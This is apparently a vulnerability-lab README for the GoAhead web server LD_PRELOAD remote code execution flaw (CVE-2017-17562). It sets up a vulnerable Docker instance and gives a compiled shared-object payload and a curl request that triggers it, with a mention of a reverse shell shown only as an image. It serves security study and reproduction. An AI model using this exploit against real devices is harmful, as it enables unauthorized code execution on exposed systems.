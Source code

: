 # GoAhead Web Server HTTPd 'LD_PRELOAD' Remote Code Execution (CVE-2017-17562)

[中文版本(Chinese version)](README.zh-cn.md)

Embedthis GoAhead is the world's most popular, tiny embedded web server, which is deployed in hundreds of millions of devices and is ideal for the smallest of embedded devices.

GoAhead before 3.6.5 allows remote code execution if CGI is enabled and a CGI program is dynamically linked. This is a result of initializing the environment of forked CGI scripts using untrusted HTTP request parameters in the cgiHandler function in `cgi.c`. When combined with the glibc dynamic linker, this behaviour can be abused for remote code execution using special parameter names such as `LD_PRELOAD`. An attacker can POST their shared object payload in the body of the request, and reference it using /proc/self/fd/0.

References:

 - https://www.elttam.com.au/blog/goahead/
 - https://www.exploit-db.com/exploits/43360
 - https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/goahead_ldpreload.rb

## Vulnerable environment

Execute following commands to start a GoAhead 3.6.4:

```
docker compose up -d
```

Then, you can see the welcome page at `http://your-ip:8080`, CGI scripts is available at `http://your-ip:8080/cgi-bin/index`.

## Exploit

First of all, compile this hijack code to a dynamic shared library:

```C
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World!\n", 14);
}
```

> Please notice that, since GoAhead is a compact embedded webserver running on almost any possible IoT device, the format of dynamic shared library is always depending on the target server architecture. In the real world, compiling exploits is not as easy as this manual suggests, although Vulhub could show you a simplest example.

Compile on a x86/64 environment:

```
gcc -shared -fPIC ./payload.c -o payload.so
```

Use curl to trigger the attack:

```
curl -X POST --data-binary @payload.so "http://your-ip:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i 
```

The response header `Hello: world!` is printed to indicate that the code has been executed:

![](1.png)

A reverse shell is got:

![](2.png)
